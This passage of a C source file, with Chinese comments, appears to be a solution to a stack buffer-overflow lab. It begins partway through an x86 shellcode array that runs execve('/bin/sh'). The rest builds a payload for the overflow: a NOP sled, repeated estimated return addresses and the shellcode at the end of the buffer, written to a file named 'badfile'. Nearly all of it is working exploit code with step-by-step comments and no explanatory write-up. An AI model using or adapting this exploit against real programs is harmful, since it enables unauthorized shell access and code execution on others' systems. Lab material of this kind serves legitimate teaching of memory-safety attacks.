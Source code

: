 ```c
  "\x68""//sh"  // pushl   $0x68732f2f
  "\x68""/bin"  // pushl   $0x6e69622f
  "\x89\xe3"    // movl    %esp,%ebx
  "\x50"        // push   %eax
  "\x53"        // push   %ebx
  "\x89\xe1"    // mov    %esp,%ecx   #
  "\x99"        // cdq                # set %eax to 0
  "\xb0\x0b"    // movb   $0x0b,%al   # set %al to 11
  "\xcd\x80"    // int    $0x80       # execve("/bin/sh",0,0)
;

void fillBuffer(char buffer[BUFFER_SIZE]) {
  // 获取 shellcode 的大小
  int shellcodeSize = sizeof(shellcode);

  //表示最终允许执行 shellcode 的估计返回地址
  //通过使用缓冲区的地址和偏移值（在本例中为缓冲区后 400 字节）
  long *returnAddress = (long *) (buffer+OFFSET);

  //获取缓冲区的长整数指针，以引用堆栈内存地址中的每个 4 字节十六进制数
  long *bufferPtr = (long *) buffer;

  int i;
  int shellcodeCounter = 0;

  //获取缓冲区中以空值终止的 shell 代码的起始索引
  //（即在缓冲区的末尾插入空终止的外壳代码）
  int shellcodeStartIndex = (BUFFER_SIZE-(shellcodeSize+1));


  // 循环 25 次 (每次修改 4-bytes hexadecimal 从缓冲区开始的栈内存地址)
  for (i = 0; i < 25; i++) {
    *bufferPtr = (long) returnAddress; // 将估计返回地址分配给堆栈内存地址中的 4 字节十六进制
    bufferPtr++; // 转到堆栈内存地址中下一个 4 字节十六进制（因为长整数是 4 字节部分）
  }

  // 在缓冲区末尾插入外壳代码，没有终止符
  for (i = shellcodeStartIndex; i < (BUFFER_SIZE-1); i++) {
    buffer[i] = shellcode[shellcodeCounter];
    shellcodeCounter++;
  }

  // shellcode 的 终止符
  buffer[BUFFER_SIZE-1] = '\0';
}

void main(int argc, char **argv) {
  char buffer[BUFFER_SIZE];
//	printf("buffer addr (%p)\n", buffer);
  FILE *badfile;

  /*使用 0x90 初始化缓冲区（NOP 指令）*/
  memset(&buffer, 0x90, BUFFER_SIZE);

  /*您需要在此处使用适当的内容填充缓冲区*/
  fillBuffer(buffer);

  /*将内容保存到文件"badfile"*/
  badfile = fopen("./badfile", "w");
  fwrite(buffer, BUFFER_SIZE, 1, badfile);
  fclose(badfile);
}

```
